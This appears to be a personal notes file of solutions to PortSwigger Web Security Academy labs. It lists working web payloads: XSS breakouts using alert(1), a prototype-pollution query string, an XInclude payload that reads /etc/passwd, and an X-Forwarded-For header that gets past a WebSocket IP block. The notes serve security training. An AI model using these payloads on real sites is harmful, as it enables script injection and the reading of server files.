 ## XSS with Access key (Canonical Link tag)

**Chapter:**

https://portswigger.net/web-security/cross-site-scripting/contexts

**Lab:** 

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag

**Limitation:** Only on Chrome

**Solution:**

https://YOUR-LAB-ID.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)

Press Alt+x on keyboard to get alert

## XSS within <script>

**Chapter:** 
  
https://portswigger.net/web-security/cross-site-scripting/contexts
**Lab:** 
  
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped
**Limitations:** NA
**solution:** 
  
</script><script>alert(1)</script>


## Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

**Chapter:**

https://portswigger.net/web-security/cross-site-scripting/contexts
  
**Lab:**

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped
  
**Limitations:** NA

**Solution:** 

\'-alert(1)//


## Reflected XSS in a JavaScript URL with some characters blocked

**Chapter:** 

https://portswigger.net/web-security/cross-site-scripting/contexts
  
**Lab:**

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked
  
**Limitations:** NA

**Solution:** 

``` https://YOUR-LAB-ID.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27 ```



## Client-side prototype pollution via browser APIs 

**Chapter:**
https://portswigger.net/web-security/prototype-pollution/browser-apis/lab-prototype-pollution-client-side-prototype-pollution-via-browser-apis
  
**Lab:**
https://portswigger.net/web-security/prototype-pollution/browser-apis/lab-prototype-pollution-client-side-prototype-pollution-via-browser-apis
  
**Limitations:** NA


**Solution:** 
/?__proto__[value]=data:,alert(1);

 Identify a gadget 
 Observe that the next line uses the Object.defineProperty() method to make the transport_url unwritable and unconfigurable. However, notice that it doesn't define a value property. 
 Craft an exploit
 /?__proto__[value]=foo
In the browser DevTools panel, go to the Elements tab and study the HTML content of the page. Observe that a <script> element has been rendered on the page, with the src attribute foo. 
  
 ### usign DOM invader
  
 Enable DOM Invader and enable the prototype pollution option. 
 Scan for gadgets
 Exploit

## Exploiting XInclude to retrieve files 

**Chapter:**
  https://portswigger.net/web-security/xxe
  
**Lab:**
  https://portswigger.net/web-security/xxe/lab-xinclude-attack
  


**Solution:** 
  Xinclude in productId
  <foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>

 
  
  
## WebSocket 

**Chapter:**
  https://portswigger.net/web-security/websockets
    
**Lab:**
https://portswigger.net/web-security/websockets/lab-manipulating-handshake-to-exploit-vulnerabilities
  
**Limitations:** NA

**Solution:** 
  
Intercept and try with XSS, if IP is blocked, reconnect and add following header:
  
X-Forwarded-For: 1.1.1.1

Click connect and send the payload

<img src=1 oNeRrOr=alert`1`>
  
  



# Template:
## Topic Here 

**Chapter:**
  
**Lab:**

  
**Limitations:** NA

**Solution:** 



